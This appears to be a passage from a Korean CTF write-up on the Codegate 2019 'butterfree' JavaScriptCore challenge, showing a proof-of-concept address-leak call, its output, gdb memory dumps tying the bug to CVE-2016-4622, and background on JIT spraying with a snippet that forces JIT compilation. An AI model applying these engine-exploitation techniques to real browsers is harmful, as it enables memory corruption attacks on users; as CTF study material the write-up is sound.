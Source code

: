 ```javascript
a=[];
print(addrof_modify(a));
```
 

```
root@ubuntu1804:/mnt/hgfs/lili/hack/codegate2019/butterfree/jscpwn# ./jsc poc.js
0.123,1.123,0,6.3659873734e-314,6.9532913969695e-310,0,0,0,0,0,0,0,0,0,0,
```

디버거(gdb)를 실행하여 print 명령어의 내부 함수인 `fucntionPrintStdOut` 함수에 브레이크포인트를 설정한다.  
`print()` 의 인자값을 추적해 보면 Array 내부에 주소값이 저장된 것을 확인할 수 있다

```
gdb-peda$ x/10gx $rdi
0x7fffffffd630:	0x00007fffffffd6b0	0x00007ffff764b50c
0x7fffffffd640:	0x0000000000000000	0x00007fffb24c3000
0x7fffffffd650:	0x00007fff00000002	0x00007fffb24e0000
0x7fffffffd660:	0x00007fffb24b43f0	0x00007fffb24e0000
0x7fffffffd670:	0x00007fffb24c3000	0x000000000000000a

gdb-peda$ x/10gx 0x00007fffb24b43f0
0x7fffb24b43f0:	0x0108210700000062	0x00007fe0000d4378
0x7fffb24b4400:	0x0000000000000000	0x0000000000000000
0x7fffb24b4410:	0x0000000000000000	0x0000000000000000
0x7fffb24b4420:	0x0000000000000000	0x0000000000000000
0x7fffb24b4430:	0x0000000000000000	0x0000000000000000

gdb-peda$ x/10gx 0x00007fe0000d4378
0x7fe0000d4378:	0x3fbf7ced916872b0	0x3ff1f7ced916872b
0x7fe0000d4388:	0x0000000000000000	0x0000000300000001
0x7fe0000d4398:	0x00007fffb24b43c0	0x0000000000000000
0x7fe0000d43a8:	0x0000000000000000	0x0000000000000000
0x7fe0000d43b8:	0x0000000000000000	0x0000000000000000
```

b[3] 을 출력하면 `0x0000000300000001`(`6.3659873734e-314`)를 출력하고, b[4]를 출력하면 포인터 값(`0x00007fffb24b43c0`, `9532913969695e-310`에서 Nan-boxing 해제)를 출력한다.

이로써 CVE-2016-4622 와 완전히 동일한 취약점을 가지고 있음이 확인되었다.

## 배경지식

### JIT Spraying(JIT 스프레이 공격)

동일한 코드를 반복해서 호출하면 JIT 컴파일러가 힙에 실행 가능한 영역을 만들어 낸다.

* JIT Spraying
```
const ITERATIONS = 100000;
function jitCompile(f, ...args) {
    for (var i = 0; i < ITERATIONS; i++) {
        f(...args);
    }
}
jitCompile(function dummy() { return 42; });
```
